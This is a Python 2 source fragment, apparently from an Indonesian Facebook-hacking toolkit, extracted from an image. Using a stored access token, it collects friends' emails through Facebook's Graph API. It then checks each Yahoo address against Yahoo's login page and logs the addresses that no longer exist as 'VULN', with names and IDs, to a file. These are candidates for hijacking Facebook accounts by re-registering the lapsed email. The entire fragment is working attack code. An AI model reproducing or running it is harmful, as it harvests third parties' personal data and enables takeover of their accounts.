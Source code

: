 
def clone_dari_daftar_teman():
	global toket
	os.system('reset')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token Invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		keluar()
	try:
		os.mkdir('out')
	except OSError:
		pass
	os.system('clear')
	print logo
	mpsh = []
	jml = 0
	print 42*"\033[1;96m="
	jalan('\033[1;96m[\x1b[1;97m✺\x1b[1;96m] \033[1;93mMengambil email \033[1;97m...')
	teman = requests.get('https://graph.facebook.com/me/friends?access_token='+toket)
	kimak = json.loads(teman.text)
	jalan('\033[1;96m[\x1b[1;97m✺\x1b[1;96m] \033[1;93mStart \033[1;97m...')
	print ('\x1b[1;96m[!] \x1b[1;93mStop CTRL+z')
	print 42*"\033[1;96m="
	for w in kimak['data']:
		jml +=1
		mpsh.append(jml)
		id = w['id']
		nama = w['name']
		links = requests.get("https://graph.facebook.com/"+id+"?access_token="+toket)
		z = json.loads(links.text)
		try:
			mail = z['email']
			yahoo = re.compile(r'@.*')
			otw = yahoo.search(mail).group()
			if 'yahoo.com' in otw:
				br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
				br._factory.is_html = True
				br.select_form(nr=0)
				br["username"] = mail
				klik = br.submit().read()
				jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
				try:
					pek = jok.search(klik).group()
				except:
					continue
				if '"messages.ERROR_INVALID_USERNAME">' in pek:
					print("\033[1;96m[✓] \033[1;92mVULN")
					print("\033[1;96m[➹] \033[1;97mID   \033[1;91m: \033[1;92m"+id)
					print("\033[1;96m[➹] \033[1;97mEmail\033[1;91m: \033[1;92m"+mail)
					print("\033[1;96m[➹] \033[1;97mNama \033[1;91m: \033[1;92m"+nama+ '\n')
					save = open('out/MailVuln.txt','a')
					save.write("Nama : "+ nama + '\n' "ID        : "+ id + '\n' "Email  : "+ mail + '\n\n')
					save.close()
					berhasil.append(mail)
		except KeyError:
			pass
	print 42*"\033[1;96m="
	print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mSelesai \033[1;97m....'
	print"\033[1;96m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil))
	print"\033[1;96m[+] \033[1;92mFile tersimpan \033[1;91m:\033[1;97m out/MailVuln.txt"